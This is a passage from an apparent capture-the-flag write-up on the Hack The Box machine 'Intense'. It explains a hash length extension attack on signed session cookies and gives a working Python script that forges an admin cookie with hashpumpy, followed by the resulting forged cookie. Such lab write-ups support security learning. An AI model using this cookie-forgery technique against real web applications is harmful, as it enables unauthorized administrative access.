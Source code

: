 We get the hash `f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105`, which appears to be the correct size:

```text
$echo -n 'f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105' | wc -c
64
```

## Signing in as the admin

Now we have the secret, it's time to work out what we can use it for. The way the cookies are signed is vulnerable to a Hash Length Extension attack. A good explanation can be found [here](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks), but the basic theory is that even if you don't know the secret you can append data to the end of the hash simply by continuing the hashing algorithm.

I'll be using `hashpumpy` to extend the hashes.

```python
from base64 import b64encode
from requests import get
from hashpumpy import hashpump

current = b'username=guest;secret=84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec;'
signature = b'2f27b9b63baea689f848b5e333426973f97a5e49b9f8f3ad4fac45943b61a372'          # change per instance!
append = b';username=admin;secret=f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105;'

for x in range(8, 15):
    new_signature, value = hashpump(signature, current, append, x)
    cookie = b64encode(value) + b'.' + b64encode(bytes.fromhex(new_signature))

    r = get('http://intense.htb/admin', cookies={'auth' : cookie.decode()})
    
    if r.status_code != 403:
        print(cookie)
```

{% hint style="danger" %}
The signature changes every reset, so make sure you update it!
{% endhint %}

I got the cookie

```text
dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAMQO3VzZXJuYW1lPWFkbWluO3NlY3JldD1mMWZjMTIwMTBjMDk0MDE2ZGVmNzkxZTE0MzVkZGZkY2FlY2NmODI1MGUzNjYzMGMwYmM5MzI4NWMyOTcxMTA1Ow==.Kj3kZb1zkyyn0eUdcAEy/u2k0TZJWvUAIDCmPuLqdNU=
```

Updating it in `Inspect Element` works!

